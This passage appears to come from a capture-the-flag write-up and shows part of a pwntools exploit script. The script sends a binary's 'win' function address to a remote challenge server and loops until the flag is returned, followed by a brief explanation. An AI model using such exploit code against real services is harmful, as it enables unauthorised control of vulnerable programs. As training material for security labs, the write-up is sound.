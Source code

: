 ``` python

  # Receives text from the web server until it matches '12345: '
  p.recvuntil(b'12345: ')

  # Gets the memory address of the win offset from the binary executable, then sends it in.
  mem = hex(elf.sym['win']).encode()
  print("Memory Location: %s" % mem)
  p.sendline(mem)

  # Gets the response, checks if the string 'won' is in it.
  res = p.clean().decode()
  if "won" in res:
   # If it is, we've gotten the flag and it prints it out before exiting the for loop.
   print("Flag Retrieved: %s" % res)
   p.close()
   break
  else:
   # Otherwise the connection is closed and the for loop iterates.
   p.close()
 # Sometimes the web server would spit out memory address vaues such as NULL which doesn't encode to binary.
 # This except is just an easier way of accounting for that problem.
 except:
  p.close()
  pass
```

Essentially this script will loop through stack values 1 to 40 in hopes of finding the memory address of main on the remote server.  Once it does, it'll print out the flag!

![Flag](https://github.com/user-attachments/assets/53aab61e-faa0-4f92-ae15-54db767f756c)

And there it is! Awesome!
